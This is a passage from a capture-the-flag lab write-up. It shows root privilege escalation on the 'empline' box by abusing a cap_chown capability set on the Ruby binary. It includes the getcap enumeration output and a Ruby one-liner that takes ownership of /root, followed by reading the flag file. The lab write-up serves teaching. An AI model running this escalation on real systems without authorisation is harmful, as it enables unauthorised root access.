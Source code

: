 ```
after do some enumeration and upload linpeas, i run this command

george@empline:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
george@empline:~$ 

let's do some research for this ruby chown, The goal is to take ownership of a file.

```
![15](https://user-images.githubusercontent.com/74853138/133895567-85a33207-79fa-40f9-a181-2213afb2b885.png)

![16](https://user-images.githubusercontent.com/74853138/133895569-7f4bccb6-5e95-4aa4-9d04-38132ad92077.png)


```
so our command should be like that; 

/usr/local/bin/ruby -e 'require "fileutils"; FileUtils.chown "george", "george", "/root/"'


```

```
george@empline:~$ /usr/local/bin/ruby -e 'require "fileutils"; FileUtils.chown "george", "george", "/root/"'
george@empline:~$ cd /root
george@empline:/root$ 

```

```
as you can see we able to access root folder

then lest read root.txt
```
>## root.txt

```
george@empline:/root$ cat root.txt 
74fea7cd0[HIDDEN]]54bc68f5d5
george@empline:/root$ 

```
>## Thank you.
